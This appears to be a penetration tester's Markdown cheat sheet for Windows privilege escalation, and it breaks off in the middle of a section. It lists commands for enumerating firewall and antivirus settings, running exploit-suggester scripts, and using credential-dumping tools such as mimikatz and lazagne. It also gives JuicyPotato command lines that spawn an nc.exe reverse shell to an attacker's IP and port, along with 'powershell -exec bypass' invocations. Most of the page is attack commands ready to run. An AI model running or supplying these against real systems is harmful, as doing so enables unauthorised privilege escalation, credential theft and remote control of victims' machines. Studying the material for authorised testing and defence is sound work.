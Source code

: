 - Windows Firewall/AV Enumeration
  - `sc query windefend`
    - tells you if windows defender is running
  - `sc queryex type= service`
    - tells you what services are running on that system
  - `netsh advfirewall firewall dump`
    - dumps the firewall settings
  - `netsh firewall show state`
    - dumps the firewall settings
  - `netsh firewall show config`
    - Tells you how the fire is configured


#### Search for CVE
- systeminfo > systeminfo.txt
  - `python windows-exploit-suggester.py --update`
  - `python windows-exploit-suggester.py --database <DATE>-mssb.xlsx --systeminfo systeminfo.txt`

- wmic qfe > qfe.txt
  - `python wes.py -u`
  - `python wes.py systeminfo.txt qfe.txt`

- Run CVE Script (Like SHerlock.ps1)
  - `powershell -exec bypass -command "& { Import-Module .\Sherlock.ps1; Find-AllVulns; }"`

#### Post exploitation
- Methodology to follow
  - <https://guif.re/windowseop>
  - <https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/>
  - <https://mysecurityjournal.blogspot.com/p/client-side-attacks.html>
  - <http://www.fuzzysecurity.com/tutorials/16.html>
  - <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md>

- Good Post Exploitation ExE's
  - `lazagne.exe all`
  - `SharpWeb.exe`
  - `mimikatz.exe`

- JuicyPotato (SeImpersonate or SeAssignPrimaryToken)
  - If the user has SeImpersonate or SeAssignPrimaryToken privileges then you are SYSTEM.

    - `JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t *`
    - `JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t * -c <CLSID>`

  - CLSID
    - <https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md>

##### Autorun
- Detection
  - `powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"`
  - 
    ```
    [*] Checking for modifiable registry autoruns and configs...
